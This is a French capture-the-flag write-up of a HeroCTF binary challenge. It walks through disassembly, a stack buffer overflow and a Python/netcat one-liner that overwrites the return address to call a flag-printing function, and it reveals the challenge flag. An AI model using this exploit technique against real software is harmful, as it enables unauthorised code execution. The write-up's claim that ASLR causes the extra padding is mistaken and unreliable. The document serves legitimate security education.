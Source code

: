 Pour cet ultime challenge de pwn, on a uniquement accès au binaire, et non plus au code source comme lors du premier challenge.

Commençons par se renseigner sur ce binaire :
```bash
$ file pwn2 
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2fc8ebe2b5eee35be7e503226787911a6a55a1c0, for GNU/Linux 3.2.0, not stripped
```
Nous avons donc un binaire 64bits pour Intel (x86-64), non strippé.

On ouvre ce binaire dans notre désassembleur favori (Cutter, IDA, Ghidra, Radare2...) et on regarde la fonction main():
```assembly
120: int main (int argc, char **argv);
; var char **var_120h @ rbp-0x120
; var int64_t var_114h @ rbp-0x114
; var char *s @ rbp-0x110
; var size_t var_4h @ rbp-0x4
; arg int argc @ rdi
; arg char **argv @ rsi
0x004011c0      push    rbp
0x004011c1      mov     rbp, rsp
0x004011c4      sub     rsp, 0x120
0x004011cb      mov     dword [var_114h], edi ; argc
0x004011d1      mov     qword [var_120h], rsi ; argv
0x004011d8      lea     rdi, str.Donne_moi_ton_nom_little_hackerz_: ; 0x402030 ; const char *format
0x004011df      mov     eax, 0
0x004011e4      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x004011e9      lea     rax, [s]
0x004011f0      mov     rsi, rax
0x004011f3      lea     rdi, [0x00402054] ; const char *format
0x004011fa      mov     eax, 0
0x004011ff      call    __isoc99_scanf ; sym.imp.__isoc99_scanf ; int scanf(const char *format)
0x00401204      lea     rax, [s]
0x0040120b      mov     rdi, rax   ; const char *s
0x0040120e      call    strlen     ; sym.imp.strlen ; size_t strlen(const char *s)
0x00401213      mov     dword [var_4h], eax
0x00401216      lea     rax, [s]
0x0040121d      mov     rsi, rax
0x00401220      lea     rdi, str.Ca_sera_pas_si_simple_cette_fois_jeune___s ; 0x402058 ; const char *format
0x00401227      mov     eax, 0
0x0040122c      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x00401231      mov     eax, 0
0x00401236      leave
0x00401237      ret
```
On peut utiliser le décompiler si l'assembleur ne nous semble pas clair (pas de honte à cela !) :
```c
undefined8 main(undefined8 argc, char **argv)
{
    char **var_120h;
    int64_t var_114h;
    undefined8 var_4h;
    
    var_114h._0_4_ = (undefined4)argc;
    printf("Donne-moi ton nom little hackerz : ");
    __isoc99_scanf(0x402054, (int64_t)&var_114h + 4);
    strlen((int64_t)&var_114h + 4);
    printf("Ca sera pas si simple cette fois jeune \"%s\"\n", (int64_t)&var_114h + 4);
    return 0;
}
```
On continue de se balader et on remarque une fonction intéressante !
```bash
$ nm pwn2 
0000000000401182 T afficherFlagG4NG
[...]
```
Voyons voir celle-ci de plus près :
```assembly
62: sym.afficherFlagG4NG ();
0x00401182      push    rbp
0x00401183      mov     rbp, rsp
0x00401186      push    rbx
0x00401187      sub     rsp, 8
0x0040118b      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401190      mov     ebx, eax
0x00401192      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401197      mov     esi, ebx
0x00401199      mov     edi, eax
0x0040119b      call    setreuid   ; sym.imp.setreuid
0x004011a0      lea     rdi, str.cat_flag.txt ; 0x402008 ; const char *string
0x004011a7      call    system     ; sym.imp.system ; int system(const char *string)
0x004011ac      lea     rdi, str.Point_faible_:_trop_fort. ; 0x402015 ; const char *s
0x004011b3      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x004011b8      nop
0x004011b9      add     rsp, 8
0x004011bd      pop     rbx
0x004011be      pop     rbp
0x004011bf      ret
```
Cette fonction nous donnera le flag sur le serveur !

On constate dans le main que l'on peut écrire sans limite dans le buffer d'input, et on va s'en servir pour overflow le buffer de 256 caractères et réécrire l'adresse de retour : on veut ainsi appeler la fonction `afficherFlagG4NG` qui a pour addresse `0x0000000000401182`.

Dans l'idée on pourrait alors se dire qu'il faut écrire 256 caractères suivis de notre adresse (sans oublier le little endian) et que le tour est joué ! Eh oui... Mais non.

En effet, ici l'ASLR (Address Space Layout Randomization) est activée, ce qui a pour effet de mettre un espace dans la stack entre notre buffer et l'adresse retour de la fonction main. Il nous faudra finalement 280 caractères avant d'avoir la main sur l'adresse de retour.

On peut alors résoudre le challenge grâce à Python (eh oui, encore et toujours)
```python
$ python -c "print('A')*280+'\x82\x11\x40\x00\x00\x00\x00\x00'" |  nc heroctf.fr 3001
Donne-moi ton nom little hackerz : Ca sera pas si simple cette fois jeune "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
FFlag: HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
Point faible : trop fort.
```
HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}

